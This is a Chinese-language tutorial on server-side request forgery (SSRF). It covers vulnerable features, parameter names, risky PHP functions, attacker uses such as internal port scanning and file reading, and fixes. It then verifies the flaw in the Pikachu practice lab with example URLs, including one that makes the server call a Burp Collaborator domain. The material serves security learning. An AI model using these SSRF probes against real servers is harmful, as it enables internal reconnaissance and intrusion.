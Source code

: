 SSRF（服务器端请求伪造）漏洞是一种通过诱导服务器发起未经授权的请求，从而访问内部资源、敏感数据或对外部系统发起攻击的安全漏洞。

一般在用户可以请求服务器访问第三方资源的业务中存在

例如：

1. 发送 `HTTP` 请求：https://www.g.cn/xxx.php?image=https://www.kali.org/kali.jpg
2. 服务器接收到请求之后获取 http://www.kali.org/kali.jpg 图片
3. 服务器获取到图片后将图片返回给用户

常见位置：

1. 分享：通过 `url` 地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过 `url` 地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的 `api` 实现以及其他调用 `url` 的功能

7. 从 `url` 关键字中寻找：

   `share` `wap` `url` `link` `src` `source` `target` `u` `3g` `display` `sourceURl` `imageURL` `domain` 

8. `php` 中容易存在 `ssrf` 的函数：

   `curl`  `file_get_content` 

常见用途：

1. 任意文件读取

   > 可利用 `ssrf` 漏洞读取 `web` 服务用户能够访问的所有文件

2. 内外网 `ip` 端口和服务扫描

   > 通常情况下黑客只能扫描目标服务器的外网端口，可以利用 `ssrf` 漏洞扫描不对外开放的内网端口

3. 内外网主机漏洞利用

>  `get` 
>
>  >  `sql` 注入
>
>  `post` 
>
>  > `sql` 注入，`rce` 调用

修复思路：

1. 限制协议
2. 限制 `ip` 
3. 限制端口

可能存在 ssrf 的 url 样式

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

## 验证

**直接验证**

利用 `ssrf` 漏洞获取一个外网的页面

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://hack.local/
```

![利用 ssrf 漏洞获取一个外网的页面](./../../../../../images/Server%20Side%20Request%20Forgery/%E5%88%A9%E7%94%A8%20ssrf%20%E6%BC%8F%E6%B4%9E%E8%8E%B7%E5%8F%96%E4%B8%80%E4%B8%AA%E5%A4%96%E7%BD%91%E7%9A%84%E9%A1%B5%E9%9D%A2.png)

**`burp` 验证**

复制 `Collaborator` 域名

```
9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com
```

![复制 Collaborator 域名](./../../../../../images/Server%20Side%20Request%20Forgery/%E5%A4%8D%E5%88%B6%20Collaborator%20%E5%9F%9F%E5%90%8D.png)

通过 `ssrf` 访问以上域名

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com/
```

![通过 ssrf 访问以上域名](./../../../../../images/Server%20Side%20Request%20Forgery/%E9%80%9A%E8%BF%87%20ssrf%20%E8%AE%BF%E9%97%AE%E4%BB%A5%E4%B8%8A%E5%9F%9F%E5%90%8D.png)

> 若网站有 `cdn` 可通过 `dns 轮询` 得到主服务器 `ip` 
